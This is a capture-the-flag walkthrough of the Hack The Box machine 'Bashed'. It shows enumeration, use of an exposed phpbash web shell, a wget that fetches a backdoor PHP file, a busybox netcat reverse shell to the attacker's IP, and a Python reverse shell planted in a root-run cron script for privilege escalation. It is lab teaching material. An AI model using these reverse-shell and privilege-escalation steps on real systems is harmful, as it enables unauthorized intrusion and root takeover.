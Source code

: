 ```yaml
---
layout: post
date: 2023-05-16
title: "Bashed Walkthrough"
categories: [hackthebox]
tags: [hackthebox, linux, web, SUDO, Scheduled Job Abuse]
---
```


I first started out with nmap scan as you must know what is open and what is closed. 

sudo nmap -Pn -n -v -sC -sV --open --min-rate=1000 -oA bashed BashedIP

```shell
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

added bashed.htb to hosts file so I am able to access the page online.

![[/assets/images/Bashed/mainpage.jpg]]

This links to another interesting page with more information relating to the exploit. 

![[/assets/images/Bashed/mainpage2.jpg]]

This shows an example of a php file that is on the server, however I do not know that at this point in time. 

![[/assets/images/Bashed/githubpage.jpg]]


https://github.com/Arrexel/phpbash


ran feroxbuster

```shell

feroxbuster -u http://bashed.htb/ -k --wordlist=/usr/share/wordlists/dirb/big.txt

```


```shell
404      GET        -l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      161l      397w     7743c http://bashed.htb/
404      GET        9l       34w      296c http://bashed.htb/Documents%20and%20Settings
404      GET        9l       33w      284c http://bashed.htb/contact%20us
301      GET        9l       28w      306c http://bashed.htb/css => http://bashed.htb/css/
301      GET        9l       28w      306c http://bashed.htb/dev => http://bashed.htb/dev/
404      GET        9l       33w      285c http://bashed.htb/donate%20cash
404      GET        9l       33w      288c http://bashed.htb/external%20files
301      GET        9l       28w      308c http://bashed.htb/fonts => http://bashed.htb/fonts/
404      GET        9l       33w      283c http://bashed.htb/home%20page
301      GET        9l       28w      309c http://bashed.htb/images => http://bashed.htb/images/
301      GET        9l       28w      305c http://bashed.htb/js => http://bashed.htb/js/
404      GET        9l       33w      284c http://bashed.htb/modern%20mom
301      GET        9l       28w      306c http://bashed.htb/php => http://bashed.htb/php/
404      GET        9l       33w      288c http://bashed.htb/press%20releases
403      GET       11l       32w      298c http://bashed.htb/server-status
404      GET        9l       33w      287c http://bashed.htb/style%20library
301      GET        9l       28w      310c http://bashed.htb/uploads => http://bashed.htb/uploads/
403      GET       11l       32w      302c http://bashed.htb/uploads/.htaccess
403      GET       11l       32w      302c http://bashed.htb/uploads/.htpasswd
404      GET        9l       34w      304c http://bashed.htb/uploads/Documents%20and%20Settings
404      GET        9l       33w      295c http://bashed.htb/uploads/Program%20Files
404      GET        9l       33w      292c http://bashed.htb/uploads/contact%20us
404      GET        9l       33w      293c http://bashed.htb/uploads/donate%20cash
404      GET        9l       33w      296c http://bashed.htb/uploads/external%20files
404      GET        9l       33w      291c http://bashed.htb/uploads/home%20page
404      GET        9l       33w      292c http://bashed.htb/uploads/modern%20mom
404      GET        9l       33w      292c http://bashed.htb/uploads/my%20project
404      GET        9l       34w      297c http://bashed.htb/uploads/neuf%20giga%20photo
404      GET        9l       33w      296c http://bashed.htb/uploads/press%20releases
404      GET        9l       33w      290c http://bashed.htb/uploads/site%20map
404      GET        9l       33w      295c http://bashed.htb/uploads/style%20library

```


going to this page provides us with a semi-shell which was shown above in the github repo. 

http://bashed.htb/dev/phpbash.php


![[/assets/images/Bashed/phpbash.jpg]]


sudo -l

![[/assets/images/Bashed/phpbash2.jpg]]

cd .. 

cd uploads/

wget http://10.10.14.7/simple-backdoor.php

http://bashed.htb/uploads/simple-backdoor.php

navigate to that page for further command execution to try and get a full shell.
	this did not work.

I saw that it was running busybox when I typed ls /bin

so I ran this command with my listener running 


```shell
busybox nc 10.10.14.7 4444 -e /bin/bash
```

```shell
nc -lvnp 4444
```


I now have a bad shell as user "www-data" so I  can upgrade with 


```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This enables me to have lateral movement.


```shell
sudo -u scriptmanager /bin/bash
```


I am now the user "scriptmanager".


I attempt to run sudo -l where it asks for a password of which I do not have.



I then travel to /home and see another user. arrexel which I can read his files and thus got the user flag.

![[/assets/images/Bashed/shell.jpg]]



travelling to / shows me an interesting folder. /scripts which I travel to finding test.py and test.txt

![[/assets/images/Bashed/shell2.jpg]]

seeing the files you can see test.py is owned by scriptmanager and test.txt is owned by root.

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```


I read test.py which it creates the test.txt file and thus I can assume that the script is being automated as root. I can then change the file contents of test.py which I uploaded a bash rev shell into test.py

I got this reverse shell from https://revshells.com

```python
import os
import pty
import socket


s=socket.socket()
s.connect(("10.10.14.7",5555))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("/bin/bash")
```



This gave me a root shell.



![[/assets/images/Bashed/pwned.jpg]
